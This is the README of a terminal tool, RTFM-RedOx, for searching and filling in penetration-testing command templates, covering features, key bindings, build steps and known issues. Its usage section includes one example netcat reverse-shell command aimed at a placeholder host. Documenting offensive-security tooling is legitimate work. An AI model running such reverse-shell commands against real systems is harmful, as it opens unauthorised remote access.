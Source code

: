 RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [RevShells.com](https://revshells.com/).  

## Features
- A Terminal User Interface that includes a local database search for commands and comments similar to using forward/reverse search in Bash.  Searching on a command's comments is useful for something like mimikatz, where mimikatz isn't in the actual command syntax itself, but is referenced in the comments.  
- Variable replacement similar to msfconsole.  Variables can be added to any command. 
- Create, update and delete commands already in the database.  
- Multiple references (typically hyperlinks) can be added to commands for things like cheat sheets, explainer videos, tutorials, etc.  

Redox eliminates the need to leave the terminal to open notes or a web browser to search for command syntax and usage. Additionally, user set variables within the CLI are automatically injected into relevant placeholders within any command you've selected before it is copied to the clipboard. 

I'm currently using the SQLite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in quite a few years, so I'm gradually adding new commands and pushing the edited database file to the repository.    

## Usage
```
Ctrl+r           Cycle through search options to dynamically find commands as you type.
                 Allows searching within commands and comments.
Ctrl+c           Copy the currently selected command to clipboard.
Ctrl+u           URL-encode and then copy the currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from the clipboard
info             Display info on the currently selected command.
env              Show user variables that have already been set.
set              Set a user variable e.g. set lhost 10.10.16.3
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           Update a database column in the selected command
                 e.g. comment, command, author or references
                 Example: update references http://blog.gregscharf.com
Esc              Exit the current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
# If you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

# Clone the repo and build a release binary
git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

## Known Issues

**Debian distributions**: The linker will fail during the build process unless the following packages are installed.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

**Kali**: Occasionally, the backspace/delete key requires Ctrl+Backspace/Delete to delete previously typed characters. In some cases, Ctrl+h stops working, so I've added a 'hist' command until I figure out some of the intermittent key stroke issues. 

**Kali ARM64**: The following packages are required to successfully build on ARM processors.
```
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
sudo apt install libssl-dev
```

**Arch**: No known issues

**Mac M1**: Screen flicker when using up/down arrows 

**Windows - Unsupported**: : The Termion crate is not compatible with windows.  I'll be switching to the Windows compatible Crossterm crate at some point.


## To Add
- [X] Search checks against both command and comment field via Ctrl+r toggle search mode
- [ ] Selectable list of tags to retrieve grouped commands
- [ ] Delete functionality for rows and columns in the database
    - For example, Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.  Deleting references and tags from a command will be done with 'delete tag <id>' or 'delete reference <id>'.  Ids will be displayed next to tags and references in the info for the command.    
- [ ] Add config file to persist user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands from the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Add a local references option via the soon to be added config file for references to notes and scripts on the local filesystem.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Switch from termion to crossterm for Windows support.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare to allow for release builds.

